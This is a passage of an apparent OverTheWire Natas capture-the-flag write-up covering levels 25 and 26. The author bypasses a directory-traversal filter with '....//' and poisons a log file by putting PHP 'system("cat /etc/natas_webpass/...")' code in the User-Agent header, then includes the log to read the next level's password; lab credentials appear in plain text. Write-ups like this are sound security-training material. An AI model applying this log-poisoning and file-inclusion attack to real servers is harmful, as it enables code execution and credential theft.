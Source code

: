 <b>Notice</b>:  Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
<p align="justify"><br />
<b>Notice</b>:  Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
```

It worked! I can see the logs that happended when it replaced my ....// to ../ !

Now, because I cant read the natas_webpass, I need to dump it's content to my log somehow.

Notice that in the logFile function, it will write the user-agent head, as is, to the logs file. If it was a php code, when it dumps it, it would've been exeuted!

```
abs@MacBookPro OverTheWire % curl "http://natas25.natas.labs.overthewire.org//index.php?lang=....//logs/natas25_art-vandelay.log" -u natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws -s -H "Cookie: PHPSESSID=art-vandelay" -A '<?php system("cat /etc/natas_webpass/natas26"); ?>'
...
[25.09.2025 12::12:48] curl/8.7.1 "Directory traversal attempt! fixing request."
[25.09.2025 12::13:27] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
 "Directory traversal attempt! fixing request."
```

# Level 25 -> 26:
```
abs@MacBookPro OverTheWire % curl "http://natas26.natas.labs.overthewire.org//index.php" -u natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE -s -i                                
...
Set-Cookie: PHPSESSID=8fijbetsllcoqc2govb9uhrlkr; path=/; HttpOnly
...
Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
<body>
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
